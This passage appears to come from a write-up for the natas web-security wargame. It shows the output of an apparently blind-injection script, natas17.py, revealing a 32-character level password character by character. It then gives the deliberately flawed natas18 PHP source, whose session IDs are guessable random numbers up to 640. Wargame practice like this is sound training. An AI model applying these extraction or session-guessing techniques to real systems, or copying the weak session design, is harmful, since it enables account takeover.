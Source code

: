 ```
python3 natas17.py

('password length:', 32)
('characters:', 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789')
('password:', 'x')
('password:', 'xv')
('password:', 'xvK')
('password:', 'xvKI')
('password:', 'xvKIq')
('password:', 'xvKIqD')
('password:', 'xvKIqDj')
('password:', 'xvKIqDjy')
('password:', 'xvKIqDjy4')
('password:', 'xvKIqDjy4O')
('password:', 'xvKIqDjy4OP')
('password:', 'xvKIqDjy4OPv')
('password:', 'xvKIqDjy4OPv7')
('password:', 'xvKIqDjy4OPv7w')
('password:', 'xvKIqDjy4OPv7wC')
('password:', 'xvKIqDjy4OPv7wCR')
('password:', 'xvKIqDjy4OPv7wCRg')
('password:', 'xvKIqDjy4OPv7wCRgD')
('password:', 'xvKIqDjy4OPv7wCRgDl')
('password:', 'xvKIqDjy4OPv7wCRgDlm')
('password:', 'xvKIqDjy4OPv7wCRgDlmj')
('password:', 'xvKIqDjy4OPv7wCRgDlmj0')
('password:', 'xvKIqDjy4OPv7wCRgDlmj0p')
('password:', 'xvKIqDjy4OPv7wCRgDlmj0pF')
('password:', 'xvKIqDjy4OPv7wCRgDlmj0pFs')
('password:', 'xvKIqDjy4OPv7wCRgDlmj0pFsC')
('password:', 'xvKIqDjy4OPv7wCRgDlmj0pFsCs')
('password:', 'xvKIqDjy4OPv7wCRgDlmj0pFsCsD')
('password:', 'xvKIqDjy4OPv7wCRgDlmj0pFsCsDj')
('password:', 'xvKIqDjy4OPv7wCRgDlmj0pFsCsDjh')
('password:', 'xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhd')
('password:', 'xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhdP')
```

### natas18

```php
<?

$maxid = 640; // 640 should be enough for everyone

function isValidAdminLogin() { /* {{{ */
    if($_REQUEST["username"] == "admin") {
    /* This method of authentication appears to be unsafe and has been disabled for now. */
        //return 1;
    }

    return 0;
}
/* }}} */
function isValidID($id) { /* {{{ */
    return is_numeric($id);
}
/* }}} */
function createID($user) { /* {{{ */
    global $maxid;
    return rand(1, $maxid);
}
/* }}} */
```